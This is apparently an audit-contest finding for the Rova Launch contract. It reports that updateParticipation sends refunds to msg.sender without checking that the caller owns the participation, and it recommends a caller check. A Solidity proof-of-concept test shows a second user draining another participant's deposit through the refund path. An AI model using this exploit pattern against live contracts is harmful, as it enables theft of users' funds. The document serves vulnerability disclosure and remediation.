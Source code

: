 Mini Lava Deer

High

# Unauthorized Participation Update Leading to Funds Lost

## Finding description and impact

The `updateParticipation` function in the Launch contract contains a critical vulnerability that allows any user to modify another user's participation and potentially steal their deposited funds by exploiting the refund mechanism.
The Launch contract provides functionality for users to update their participation amounts in token launches, either increasing or decreasing their committed funds. When a user decreases their participation amount, the contract sends a refund for the difference. However, the contract fails to verify that the person requesting the update is the original participant, only validating the userId matches.
This vulnerability stems from the contract sending refunds to msg.sender without verifying it matches the original participant's address:

```solidity
if (prevInfo.currencyAmount > newCurrencyAmount) {
    uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
    // Vulnerable: Sends refund to msg.sender without verification
    IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);
}
```

## Links to affected code

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312-L397

## Proof of Concept

The vulnerability allows malicious users to:

  1. Update any participant's allocation to a lower amount
  2. Receive the difference as a refund to their own address
  3. Effectively steal funds from legitimate participants

Add this test to `LaunchUpdateParticipationTest` contract:

```solidity
 function testUnauthorizedUpdateParticipation() public {
        // Setup launch group with non-finalizing participation
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory settings1 = _setupLaunchGroupWithStatus(launchGroupId, LaunchGroupStatus.PENDING);
        settings1.finalizesAtParticipation = false;
        settings1.status = LaunchGroupStatus.ACTIVE;

        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, settings1);
        vm.stopPrank();

        // User1 makes initial participation
        bytes32 user1ParticipationId = bytes32("user1Participation");
        ParticipationRequest memory initialRequest = _createParticipationRequest();
        initialRequest.launchGroupId = launchGroupId;
        initialRequest.launchParticipationId = user1ParticipationId;
        initialRequest.tokenAmount = 1000 * 10 ** launch.tokenDecimals();
        bytes memory initialSignature = _signRequest(abi.encode(initialRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch), _getCurrencyAmount(launchGroupId, initialRequest.currency, initialRequest.tokenAmount)
        );
        launch.participate(initialRequest, initialSignature);
        vm.stopPrank();

        // User2 attempts to update User1's participation to get refund
        vm.startPrank(user2);
        UpdateParticipationRequest memory attackRequest = _createUpdateParticipationRequest(500); // Lower amount to trigger refund
        attackRequest.launchGroupId = launchGroupId;
        attackRequest.prevLaunchParticipationId = user1ParticipationId; // Reference User1's participation
        attackRequest.newLaunchParticipationId = bytes32("attacker_participation"); // New unique ID
        attackRequest.userAddress = user2; // Attacker's address

        // Record initial balances
        uint256 user2InitialBalance = currency.balanceOf(user2);

        // Sign and execute attack
        bytes memory attackSignature = _signRequest(abi.encode(attackRequest));

        launch.updateParticipation(attackRequest, attackSignature);

        // Verify User2 (attacker) received refund
        assertGt(currency.balanceOf(user2), user2InitialBalance);
        vm.stopPrank();
    }
```

## Recommended mitigation steps

Add address validation at the start of the `updateParticipation` function:

```solidity
    // Add address validation
    if (msg.sender != prevInfo.userAddress) {
        revert UnauthorizedUpdate();
    }

```


